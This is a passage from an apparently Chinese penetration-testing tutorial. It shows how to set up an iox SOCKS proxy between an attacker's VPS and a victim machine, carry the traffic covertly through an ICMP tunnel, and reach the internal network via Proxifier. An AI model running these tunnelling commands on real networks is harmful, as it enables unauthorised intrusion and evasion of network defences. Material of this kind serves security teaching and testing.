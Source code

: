[![](assets/1708095858-0d2344704e5953e7c2eecd5a60720a10.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202909-f04508b4-e8e4-1.png)

3、服务端（VPS），启动 iox 服务端，接收从 3333 端口的流量转发至 4444 端口

```bash
./iox proxy -l 3333 -l 4444
```

[![](assets/1708095858-b5f761c96c0e442b682ba5272f41ffb4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202917-f50ab268-e8e4-1.png)

4、客户端（受害者），启动 iox 客户端，将 3389 流量转发出网，由于 3389 已建立 ICMP 隧道，所以 iox 代理的 Socks 流量将通过 ICMP 隧道出网。

```bash
iox.exe proxy -r 127.0.0.1:3389
```

[![](assets/1708095858-e395bc1e66e15e7c6c72c8827feb9c02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202926-fa262214-e8e4-1.png)

服务端接收到信息，成功建立通讯

[![](assets/1708095858-846e8a2fa5c6a3bcb172465927092891.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502202933-fe931e56-e8e4-1.png)

5、通过 proxifier 代理 socks 流量，实现本机访问内网
